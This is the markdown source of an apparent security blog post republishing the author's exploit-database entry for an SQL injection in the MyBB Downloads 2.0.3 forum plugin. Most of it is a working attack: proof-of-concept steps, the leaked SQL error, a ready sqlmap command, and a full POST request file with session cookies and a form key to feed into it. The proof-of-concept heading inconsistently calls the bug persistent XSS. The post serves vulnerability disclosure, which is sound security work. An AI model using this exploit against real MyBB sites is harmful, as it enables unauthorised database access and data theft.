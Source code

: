 ```yaml
---
layout: post
title: MyBB Downloads 2.0.3 - SQL Injection
date: 2018-11-06 21:17 -0300
categories: [my_exploits, offensive_security]
tags: [ exploit, security, hacking, MyBB, MyBB Downloads, vulnerability, SQLi]
---
```


MyBB Downloads it is a plugin (MyBB) which adds a page to download files. If enabled, regular members can add new downloads to the page after admin approval.  

#### Intial Submissions

``````
# Exploit Title: MyBB Downloads 2.0.3 - SQL Injection
# Date: 28-10-2018
# Exploit Author: Lucian Ioan Nitescu
# Contact: https://twitter.com/LucianNitescu
# Webiste: https://nitesculucian.github.io
# Vendor Homepage: https://github.com/vintagedaddyo/MyBB_Plugin-Downloads
# Software Link: https://github.com/vintagedaddyo/MyBB_Plugin-Downloads
# Version: 2.0.3
# Tested on: Ubuntu 18.04
 
1. Description:  
 
It is a plugin which adds a page to download files. If enabled, regular members can add new downloads to the page after admin approval.  
 
2. Proof of Concept: 
 
Persistent XSS  
- Go to downloads.php page  
- Create a New Download  
- Add the following to the title: a"
- Now on submit, the user will be prompted to an SQL Injection specific error.
 
```
MyBB has experienced an internal SQL error and cannot continue.
 
SQL Error:
    1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"a""' at line 1
Query:
    SELECT * FROM mybb_downloads WHERE name="a""
```
 
- THis can be exploited with: sqlmap -r request_file -p name --threads 5
 
3. Request File example:
 
POST /downloads.php?newdownload=1 HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8081/downloads.php?newdownload=1
Content-Type: multipart/form-data; boundary=---------------------------171894060312075061251712806160
Content-Length: 1029
Cookie: mybb[lastvisit]=1540744980; mybb[lastactive]=1540745020; sid=677a58d33fe23e7f2ea3841c79496fcd; loginattempts=1; mybbuser=3_waeMfSMiIRrTpPqW2uy8ZF8AMx8pyRtMCUJ6Gx0yoGRyLBsBow
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
 
-----------------------------171894060312075061251712806160
Content-Disposition: form-data; name="my_post_key"
 
6cb47e578ed16aa5272c55b0cb8745b4
-----------------------------171894060312075061251712806160
Content-Disposition: form-data; name="name"
 
a"
-----------------------------171894060312075061251712806160
Content-Disposition: form-data; name="shortdesc"
 
test
-----------------------------171894060312075061251712806160
Content-Disposition: form-data; name="description"
 
test
-----------------------------171894060312075061251712806160
Content-Disposition: form-data; name="image"
 
 
-----------------------------171894060312075061251712806160
Content-Disposition: form-data; name="url"
 
1
-----------------------------171894060312075061251712806160
Content-Disposition: form-data; name="numimages"
 
4
-----------------------------171894060312075061251712806160
Content-Disposition: form-data; name="submit"
 
Publish download
-----------------------------171894060312075061251712806160--
 
3. Solution:
 
There is no public available solution.
``````

#### Public appearances

- Exploit Database: [https://www.exploit-db.com/exploits/45747/](https://www.exploit-db.com/exploits/45747/)
- Packet Storm Security: [https://packetstormsecurity.com/files/149993/mybbdownloads203-sql.txt](https://packetstormsecurity.com/files/149993/mybbdownloads203-sql.txt)
- 0day.today: [https://0day.today/exploit/31498](https://0day.today/exploit/31498)
- CXSecurity: [https://cxsecurity.com/issue/WLB-2018100251](https://cxsecurity.com/issue/WLB-2018100251)

#### Other references

- [https://nitesculucian.github.io/2018/10/28/attackdefense-com-sxss-mybb-downloads-plugin/](https://nitesculucian.github.io/2018/10/28/attackdefense-com-sxss-mybb-downloads-plugin/)
